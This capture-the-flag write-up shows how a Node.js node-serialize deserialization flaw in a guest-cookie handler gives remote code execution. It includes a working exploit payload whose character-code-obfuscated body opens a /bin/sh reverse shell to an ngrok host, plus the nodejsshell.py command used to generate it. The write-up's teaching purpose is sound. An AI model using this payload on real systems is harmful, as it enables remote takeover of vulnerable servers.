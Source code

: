 ```yaml
---
description: node.js deserialization vulnerability leads to RCE.
---
```


# Sparta

## Problem

Spartanians are starting to lose their great power, help them move their objects and rebuild their Empire.

## Solution

In the given source code, we can see that the `/guest` endpoint deserializes the base 64 decoded `guest` cookie.

```javascript
app.post('/guest', function(req, res) {
   if (req.cookies.guest) {
       var str = new Buffer(req.cookies.guest, 'base64').toString();
       var obj = serialize.unserialize(str);
       if (obj.username) {
         res.send("Hello " + escape(obj.username) + ". This page is currently under maintenance for Guest users. Please go back to the login page");
   }
 } else {
     var username = req.body.username 
     var country = req.body.country 
     var city = req.body.city
     var serialized_info = `{"username":"${username}","country":"${country}","city":"${city}"}`
     var encoded_data = new Buffer(serialized_info).toString('base64');
     res.cookie('guest', encoded_data, {
       maxAge: 900000,
       httpOnly: true
     });
 }
```

There is a well-known deserialization vulnerability in node.js that leads to RCE ([CVE-2017-5941](https://www.exploit-db.com/docs/english/41289-exploiting-node.js-deserialization-bug-for-remote-code-execution.pdf)).

By passing a serialized object like the following into `serialize.unserialize()`, we can achieve RCE.

```javascript
{"rce":"_$$ND_FUNC$$_function (){\n \t
require('child_process').exec('ls /', function(error, stdout, stderr) {
console.log(stdout) });\n }()"}
```

This relies on JavaScript's Immediately Invoked Function Expression (IIFE): notice the IIFE bracket after the function expression:

```javascript
function (){ ... }()
```

Now, we can execute a reverse shell payload within the function that would be fired when the data is deserialized. Using [nodejsshell.py,](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py) we can craft such a payload.

In my case: `python nodejsshell.py 2.tcp.ngrok.io 13755` allowed me to generate a reverse shell payload for my ngrok tunnel.

![](<../../.gitbook/assets/image (2) (1) (1).png>)

Then, we can copy the output into the function body.

```javascript
var serialize = require('node-serialize');
var payload = '{"rce":"_$$ND_FUNC$$_function(){eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,50,46,116,99,112,46,110,103,114,111,107,46,105,111,34,59,10,80,79,82,84,61,34,49,51,55,53,53,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))}()"}';
serialize.unserialize(payload);
```

Once we tested that our payload works, we can encode the payload to base 64, and send it through the cookie header.

![](<../../.gitbook/assets/image (3) (1).png>)

We obtain a reverse shell, which allows us to read the flag.

![](<../../.gitbook/assets/image (4) (1).png>)

## References:

1. [https://www.exploit-db.com/docs/english/41289-exploiting-node.js-deserialization-bug-for-remote-code-execution.pdf](https://www.exploit-db.com/docs/english/41289-exploiting-node.js-deserialization-bug-for-remote-code-execution.pdf)
2. [https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py)
